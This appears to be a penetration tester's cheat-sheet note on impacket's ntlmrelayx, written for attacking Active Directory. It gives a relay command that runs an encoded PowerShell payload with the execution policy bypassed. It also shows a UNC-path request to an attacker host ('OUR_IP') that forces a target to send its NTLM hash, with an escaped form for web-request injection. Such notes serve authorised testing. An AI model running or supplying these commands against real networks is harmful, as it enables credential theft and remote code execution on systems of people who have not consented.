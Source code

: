 ```yaml
---
tags:
  - tool
  - active_directory
---
```

# ntlmrelayx

For every connection received, this module will try to relay that connection to specified target(s) system or the original client

## Capabilities

```bash
# Relay an incomming Net-NTLMv2 hash to the target and execute the command
impacket-ntlmrelayx --no-http-server -smb2support -t $IP -c 'powershell -nop -noni -ep bypass -e JABjA...'
```

We can send a request to our attack box from our target inside a reverse shell via the following

```powershell
dir \\OUR_IP\a
```

**Note:** Make sure to include escape characters when injecting in a web request

```
\\\\OUR_IP\a
```